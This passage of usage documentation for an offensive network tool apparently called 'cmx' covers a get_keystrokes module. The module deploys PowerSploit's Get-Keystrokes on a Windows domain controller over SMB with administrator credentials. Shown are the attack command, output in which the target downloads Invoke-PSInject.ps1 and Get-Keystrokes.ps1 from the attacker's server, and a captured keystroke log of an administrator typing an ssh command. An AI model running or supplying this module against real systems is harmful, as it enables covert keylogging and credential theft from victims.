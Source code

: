 ```
ENUM_DNS    192.168.1.110    445    DC2016A              pacific.ocean.depth: dc2016a.pacific.ocean.depth. hostmaster.pacific.ocean.depth.  464 900 600 86400 3600
ENUM_DNS    192.168.1.110    445    DC2016A          [*] Saved raw output to DNS-Enum-192.168.1.110-2018-11-28_173000.log

~# 
```
Output files are saved to /root/.cmx/logs/

--------------------------------------------------------------------------------------------------------------------------------------------------------
## get_keystrokes   
Executes PowerSploit's Get-Keystrokes script  
Needs to be killed manually after recieving the Got Keys! message  
using Ctrl+C  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
*   TIMEOUT   Specifies the interval in minutes to capture keystrokes.
    STREAM    Specifies whether to stream the keys over the network (default: False)
    POLL      Specifies the interval in seconds to poll the log file (default: 20)
```
**Example Usage:**
```
~# cmx smb 192.168.1.110 -u Administrator -p 'AAdmin!23' -M get_keystrokes -o TIMEOUT=2
```
**Expected Results:**
```
GET_KEYS...                                         [*] This module will not exit until CTRL-C is pressed
GET_KEYS...                                         [*] Keystrokes will be stored in ~/.cmx/logs

SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:PACIFIC) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [+] PACIFIC\Administrator:AAdmin!23 (Pwn3d!)
GET_KEYS... 192.168.1.110    445    DC2016A          [+] Executed launcher
GET_KEYS... 192.168.1.110                            [*] - - "GET /Invoke-PSInject.ps1 HTTP/1.1" 200 -
GET_KEYS... 192.168.1.110                            [*] - - "GET /Get-Keystrokes.ps1 HTTP/1.1" 200 -
GET_KEYS... 192.168.1.110    445    DC2016A          [+] Got keys! Stored in /root/.cmx/logs/get_keystrokes_192.168.1.110/keys_Administrator.log
^CKeyboardInterrupt
2018-11-29T20:29:28Z
```
**Results File:**
Output files are saved to /root/.cmx/logs/get_keystrokes_\<targetIP\>/  
Results are of the form:  
"Key pressed","username: application","date"  
Below example grabbed the Administrator typing "ssh root@10.10.10.10" the "p@ssword!"  
```
~# cat /root/.cmx/logs/get_keystrokes_192.168.1.110/keys_Administrator.log

��"TypedKey","WindowTitle","Time"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:24 PM"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:24 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"h","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"< >","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"r","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"o","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
```